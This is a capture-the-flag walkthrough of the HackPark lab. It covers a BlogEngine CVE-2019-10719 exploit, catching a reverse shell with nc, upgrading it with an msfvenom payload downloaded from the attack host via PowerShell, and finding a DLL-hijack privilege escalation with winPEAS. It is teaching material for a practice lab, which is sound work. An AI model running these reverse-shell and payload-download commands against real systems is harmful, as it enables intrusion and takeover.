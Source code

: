 To automate the exploit, we prepare a simplified version of [Aaron Bishop's CVE-2019-10719 exploit script](https://github.com/irbishop/CVEs/blob/master/2019-10719/exploit.py) adapted for the HackPark room. [The script is provided in full alongside this guide](./hackpark_exploit.py), but you should configure the IP and PWORD variables before running it. Having copied the script onto your attack machine, start a nc listener to capture the reverse shell and run the script in the same directory as your `PostView.ascx` payload. After a few seconds, the shell will connect : 

```console
┌──(kali㉿kali)-[~/Documents/tthm/hackpark]
└─$ nc -lvnp 1337
listening on [any] 1337 ...
connect to [ATTACK_IP] from (UNKNOWN) [10.10.172.214] 49366
Microsoft Windows [Version 6.3.9600]
(c) 2013 Microsoft Corporation. All rights reserved.
whoami
c:\windows\system32\inetsrv>whoami
iis apppool\blog
```

## 3. Shell upgrade - msfvenom

The shell provided by the exploit is pretty dismal, so we're going to replace it with an alternative from msfvenom. Let's get through this quickly : 

1. Generate a new reverse shell payload in .exe format (`msfvenom -p windows/shell_reverse_tcp LHOST=ATTACK-IP LPORT=5555 -f exe > upgrade.exe`)
2. Host the payload from the attack machine (`sudo python3 -m http.server`)
3. Download the payload to a writable directory on the target (`C:\Windows\Temp`) from the current shell session (`powershell -c "Invoke-WebRequest -Uri 'ATTACK_IP/upgrade.exe' -OutFile '.\upgrade.exe'" `)
4. Start a nc listener on the attack machine (`nc -lvnp 5555`)
5. Run the payload on the target (`.\upgrade.exe`)

The resulting shell will have more stable output and error reporting than our initial shell. Why didn't we just send a more stable shell in the initial payload? Reader, I tried - see section 5.

## 4. Privesc : winpeas, writeable service directory

Our current iis apppool user does not have access to the user directories at `C:\Windows\Users\jeff` and `C:\Windows\Users\Administrator`. We will use winpeas to identify options for privesc - download the [winpeas executable](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS/winPEASexe) to your attack machine, host it on HTTP, download to a writable directory on the target machine and run it. Scrolling through the results, we find a possible .dll hijacking vulnerability on a [third-party scheduler service](https://www.splinterware.com/products/scheduler.html) :

```console
...snip...
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
...snip...
```
